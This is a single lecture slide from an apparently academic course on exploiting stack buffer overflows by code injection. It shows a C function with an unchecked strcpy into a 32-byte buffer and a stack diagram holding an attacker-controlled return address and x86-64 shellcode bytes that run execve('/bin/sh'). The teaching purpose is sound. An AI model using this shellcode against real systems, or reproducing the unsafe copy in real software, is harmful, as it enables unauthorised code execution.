

# Exploiting Stack Buffer Overflows – Code injection
| stack frame of function calling copy |
| --- |
| attacker-controlled return address |
| \x48\x31\xf6\x56\x48\xbf\x2f\x62 \x69\x6e\x2f\x2f\x73\x68\x57\x54 \x5f\xb0\x3b\x99\x0f\x05 (execve(“/bin/sh”, NULL, NULL);) |
| length |
| stack frame of strlen / strcpy |
size_t copy(char *s) {
	char buf[32];
	size_t length;
	length = strlen(s);
	strcpy(buf, s);
	return length;
}

towards higher memory addresses
towards the top of the stack
Florian Hofhammer, M1 Jacques Herbrand
7